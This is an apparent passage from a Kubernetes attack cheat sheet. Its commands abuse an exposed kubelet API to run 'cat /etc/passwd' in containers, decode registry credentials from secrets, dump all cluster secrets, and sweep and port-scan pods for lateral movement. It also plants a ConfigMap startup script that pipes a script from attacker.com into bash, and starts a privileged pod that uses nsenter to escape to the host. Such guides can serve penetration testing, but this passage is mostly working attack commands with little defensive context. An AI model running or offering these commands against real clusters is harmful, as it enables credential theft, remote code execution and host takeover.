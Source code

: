 ### 7. Exposed Kubelet API
```bash
# Access kubelet API
curl -k https://localhost:10250/pods

# Execute commands in containers
curl -k -X POST https://localhost:10250/exec/<namespace>/<pod>/<container> \
  -d "cmd=cat /etc/passwd"
```

### 8. ImagePullSecrets Exposure
```bash
# Decode docker config
kubectl get secret regcred -o jsonpath='{.data.\.dockerconfigjson}' | base64 -d

# Extract credentials
echo $DOCKER_CONFIG | jq -r '.auths."docker.io".auth' | base64 -d
```

### 9. Network Policy Bypass
No network policies allowing lateral movement:
```bash
# From compromised pod
for i in {1..254}; do
  ping -c 1 10.244.0.$i 2>/dev/null && echo "10.244.0.$i is alive"
done

# Port scan other pods
nmap -sT -p- 10.244.0.0/24
```

### 10. ConfigMap/Secret Injection
```yaml
apiVersion: v1
kind: ConfigMap
metadata:
  name: malicious-config
data:
  startup.sh: |
    #!/bin/bash
    curl attacker.com/shell.sh | bash
```

## Exploitation Tools

### kubectl Attacks
```bash
# Get all secrets
kubectl get secrets -A -o json

# Create privileged pod
kubectl run r00t --restart=Never -ti --rm --image lol \
  --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"securityContext":{"privileged":true}}]}}'

# Port forward to internal services
kubectl port-forward svc/internal-app 8080:80
```
